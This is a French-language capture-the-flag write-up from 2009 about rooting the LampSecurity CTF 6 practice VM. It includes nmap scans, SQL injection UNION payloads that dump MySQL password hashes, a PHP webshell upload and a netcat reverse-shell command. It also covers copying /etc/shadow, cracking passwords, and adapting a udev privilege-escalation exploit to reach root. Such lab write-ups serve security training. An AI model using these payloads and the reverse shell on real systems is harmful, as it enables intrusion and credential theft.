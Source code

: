 ```yaml
---
layout: post
title:  "LampSecurity CTF 6"
date:   2009-07-28 20:18:00 +0100
categories: [security]
---
```

Je me suis attaqué à l'épreuve proposée par [lampsecurity](https://web.archive.org/web/20130510094426/http://www.lampsecurity.org/). Le principe est de faire tourner une machine virtuelle et de la rooter. Si le challenge vous intéresse, c'est [ici](http://www.lampsecurity.org/capture-the-flag-6). Il y a aussi une solution en pdf. Je propose une autre solution ici, si vous n'avez pas fait l'épreuve, essayez là avant de lire ce qui suit.

Pour l’installation de l’épreuve, j’ai utilisé `VMware player 2.5.2 build-156735`  
Pour la mise en place, la carte réseau virtuelle est en mode bridged (`Devices->Network adapteur->Bridged`) ensuite il suffit de lancer la machine et c’est parti. Le mode bridged induit le fait que la machine sera sur le réseau local. Comme je travaille sous windows, je commence par un:

```
ipconfig /all
Masque de sous-réseau . . . . . . : 255.255.255.0
Passerelle par défaut . . . . . . : 192.168.1.1
Serveur DHCP. . . . . . . . . . . : 192.168.1.1
```

Ensuite on lance [Nmap](nmap.org) pour localiser la machine:

```
nmap -T4 -A -v -PE -PS22,25,80 -PA21,23,80,3389 192.168.1.0/24
```

Chez moi son ip est `192.168.1.114`, puis je scanne les ports:

```
nmap -p 1-65535 -T4 -A -v -PE -PS22,25,80 -PA21,23,80,3389 192.168.1.114
```

Étant une épreuve ciblée sur apache & co, le seul port ouvert est le port 80/http.
On se rend sur le site web et après quelques tests, on se rend compte que le site est criblé de failles: upload, sql injection, etc.
`http://192.168.1.114/index.php?id=1 OR 1=1` affiche tout les events.

Ensuite, on essaye de comprendre comment est structurée la requête. On peut interagir avec 3 champs, apparemment `2,3,7`, pour récupérer des informations.  
`?id=1 UNION SELECT 1,user(),database(),4,5,6,@@VERSION` ce qui nous donne:
* user: cms_user@localhost
* Version du serveur sql : 5.0.45
* Table utilisée: cms

Ensuite je me suis intéressé à la base `information_schema` pour avoir une vue globale de la base de données.
Par exemple, `?id=1 UNION SELECT 1,2,3,4,5,6,SCHEMA_NAME from information_schema.schemata` nous indique que la base de données ressemble à ça:
* information_schema
* cms
* mysql
* roundcube
* test

```
?id=1 UNION SELECT 1,Host,User,4,5,6,Password from mysql.user
root@localhost : 6cbbdf9b35eb7db1 -> mysqlpass
cms_user@% : 2e0cfd856355b099 -> 45kkald?8laLKD
```

On peut aussi scanner les répertoires du site où on trouve le fichier `http://192.168.1.114/sql/db.sql` d'où on récupère des infos sur la table `cms.user`, ce qui nous donne le pass admin du site. (on remarquera au passage qu'il y a des sessions stockées dans la BDD...).

admin : 25e4ee4e9229397b6b17776bfceaf8e7 -> adminpass  
On se log donc et on profite de l'upload d'image non filtré. Les images sont stockées dans `files/`. Hop on upload un script php avec un `system($cmd)`. On en a fini pour la partie web, le plus intéressant arrive:

```
uname -a
Linux 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686 i686 i386 GNU/Linux

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
fred:x:502:502::/home/john:/bin/bash
```

On ne peut pas se loger avec apache ni utiliser `passwd` pour nous créer un compte ssh. J'upload un `netcat` compilé sur une autre box vu que le script d'upload filtre rien. C'est la solution la plus simple à mon goût.

```
Coté attaquant  : C:\\>nc -v -l -p 2501
Coté victime    : ?cmd=./netcat -e /bin/sh 192.168.1.111 2501
```

On a un shell, il nous reste plus qu'a élever nos privilèges sur la cible. La faille vmsplice ne donne rien, [udev](http://www.milw0rm.com/exploits/8478) par contre, l'exploitation est un peu complexe. J'ai eu recours à la solution proposée par lampsec. En gros, le sploit a besoin d'un pid qu'on ne peut pas retrouver précisément. On se base sur ça:

```
cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
cfc43c00 0   3153   00000111 0        0        00000000 2
cfecce00 0   0      00000000 0        0        00000000 2
cf5f8000 6   0      00000000 0        0        00000000 2
cf54b800 7   0      00000000 0        0        00000000 2
ce733e00 9   2467   00000000 0        0        00000000 2
cfe4f000 9   0      00000000 0        0        00000000 2
cfe46c00 10  0      00000000 0        0        00000000 2
cfbecc00 11  0      00000000 0        0        00000000 2
cfc43a00 15  571    ffffffff 0        0        00000000 2 <-- ici
cfeccc00 15  0      00000000 0        0        00000000 2
cfbeca00 16  0      00000000 0        0        00000000 2
cfcf0200 18  0      00000000 0        0        00000000 2
```

Le pid utilisé dans l'exploit devrait être `571-1`. En réalité, ça a fonctionné avec le pid `573` donc n'hésitez pas à faire plusieurs tests... J'ai modifié le script de la faille udev car nous n'avons pas de shell interactif, juste une connexion avec netcat. J’ai donc copié les fichiers `/etc/shadow` & `/etc/passwd` avec les droits de lecture pour apache. Ensuite, on crack les pass obtenus à l’aide de [John the ripper](http://www.openwall.com/john/), ce qui donne un résultat assez rapidement.  
fred : fred1989

On peut donc maintenant se loger en ssh et profiter d’un vrai shell. On relance le sploit `udev` en le modifiant encore pour ne pas avoir d'erreur d'accès en écriture/lecture (celui-ci utilise des liens hardcodés donc `/tmp/suid` est inaccessible. On modifie donc `/tmp/suid` par `/tmp/suidBis`). On relance le sploit modifié avec cette fois-ci un `execl(“/bin/sh”, “sh”, NULL);` et on obtient notre shell avec les droits root!

Il y a sûrement d’autres solutions, comme au niveau de roundcube ou des sessions!
